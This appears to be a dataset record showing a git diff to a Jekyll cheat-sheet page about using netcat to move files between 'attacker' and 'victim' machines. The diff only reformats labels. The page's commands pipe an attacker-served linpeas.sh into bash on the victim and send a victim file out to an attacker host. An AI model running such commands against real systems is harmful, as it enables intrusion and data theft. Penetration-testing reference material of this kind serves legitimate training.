

Before and after one commit to arttoolkit/arttoolkit.github.io, a Jekyll site: the page built from _wadcoms/netcat-copy_file.md, in a window 1280 px wide, cut to the strip 187-769 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
update netcat

```diff
--- a/_wadcoms/netcat-copy_file.md
+++ b/_wadcoms/netcat-copy_file.md
@@ -2,13 +2,13 @@
 description: |
   The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.
 
-  Command Reference: |
+  Command Reference:
 
   	File to copy: linpeas.sh
 
-    Copy from attacker to victim: nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
+    nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
 
-    Copy from victim to attacker: nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)
+    nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)
 
 
 command: |
```
